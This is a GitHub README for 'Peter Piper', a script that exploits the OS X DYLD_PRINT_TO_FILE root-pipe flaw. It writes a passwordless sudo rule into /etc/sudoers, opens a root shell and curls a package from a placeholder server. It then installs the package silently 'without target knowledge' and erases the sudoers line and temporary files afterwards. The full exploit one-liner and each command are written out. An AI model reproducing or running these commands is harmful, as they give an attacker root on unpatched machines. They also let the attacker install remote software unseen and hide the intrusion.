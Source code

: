 # Peter Piper Documentation #

__1. INTRODUCTION__
<br>
This script was made as an alternative to legitimate authentication in Applescript. This script uses a method of exploitation in OS X called root piping.

<br>

__2. EXPLOIT__
<br>
This exploit uses a vulnerability that was properly fixed in OS X 10.10.5. It’s reference information is [here](https://www.sektioneins.de/en/blog/15-07-07-dyld_print_to_file_lpe.html).
This exploit gives whatever user that executes it admin instantly.

<br>

__3. INSTALL__
<br>
We use `cURL` to get the Java 8 Update 60 package onto the target computer and into a temporary directory, then the `installer` command featured in the OS X command line to install the .pkg we fetched. This is the correct command for this particular task because it skips the graphical installer meaning it can run behind the scenes without target knowledge.

<br>

__4. CLEANUP__
<br>
We first remove the temporary directory used to store the Java package during install, then we use the command `sed` to remove the target from the sudoers list.

<br>

__5. `function KeepSafe { }` & `trap`__
<br>
This is used to ensure the completion of the command if it fails.

<br>

<br>

## IN-DEPTH LOOK AT `function KeepSafe { }` COMMANDS ##

`echo 'echo "$(whoami) ALL=(ALL) NOPASSWD:ALL" >&3' | DYLD_PRINT_TO_FILE=/etc/sudoers newgrp;` ___- Exploit the machine___
<br>
`sudo bash -c ` ___- Create a root bash shell___
<br>
`if [[ $EUID -ne 0 ]]; then echo -e "\033[1mFailed! No root!\033[0m $(exit 1)";` ___- Check if the exploit actually worked, if not, exit the script___
<br>
`sudo mkdir -v /tmp$$;` ___- Make a temporary directory to store the package in___
<br>
`sudo curl -# http://<SERVER_ADDRESS>/Java_8_Update_60.pkg > /tmp$$/Java_8_Update_60.pkg;` ___- Get the package___
<br>
`sudo installer -verbose -pkg /tmp$$/Java_8_Update_60.pkg -target LocalSystem;` - ___Install the package___
<br>
`sudo sed -i "" "/NOPASSWD:ALL/d" /etc/sudoers;` ___- Remove the line allowing root access without a password___
<br>
`rm -rfv /tmp$$;` ___- Remove the temporary directory___
